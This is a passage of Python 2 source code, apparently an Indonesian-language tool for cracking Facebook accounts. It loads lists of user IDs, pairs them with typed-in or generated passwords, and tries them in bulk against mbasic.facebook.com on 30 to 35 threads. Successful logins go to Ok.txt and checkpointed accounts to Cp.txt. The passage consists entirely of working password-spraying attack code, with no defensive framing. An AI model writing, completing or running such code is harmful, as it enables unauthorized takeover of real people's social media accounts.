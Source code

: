 							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print('[x] File Tidak Ada')
							menu()
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0]})
						except:continue
				except Exception as e:
					print('[x] File Tidak Ada')
					continue
				print('[•] Contoh Pass : sayang,anjing')
				self.pwlist()
				break
			elif f=="t":
				try:
					while True:
						try:
							self.apk= 'rozhak.json'
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e:
							print('[x] File Tidak Ada')
							menu()
							continue
					self.fl=[]
					for i in self.fs:
						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print('[x] File Tidak Valid')
					menu()
					continue
				print('[•] Hasil Ok Tersimpan Di Ok.txt')
				print('[•] Hasil Cp Tersimpan Di Cp.txt')
				print('──────────────────────────────────────────')
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				print ('[Selesai]')
				break
	def pwlist(self):
		self.pw=raw_input("[?] Password : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
                        print('[•] Hasil Ok Tersimpan Di Ok.txt')
                        print('[•] Hasil Cp Tersimpan Di Cp.txt')
			print('──────────────────────────────────────────')
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			print ('[Selesai]')
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=mbasic(fl.get("id"),
					i,"https://mbasic.facebook.com")
				if log.get("status")=="success":
					print("\r\033[0;92m[Ok] "+(fl.get("id")+"\033[0;97m | \033[0;92m"+i+" "))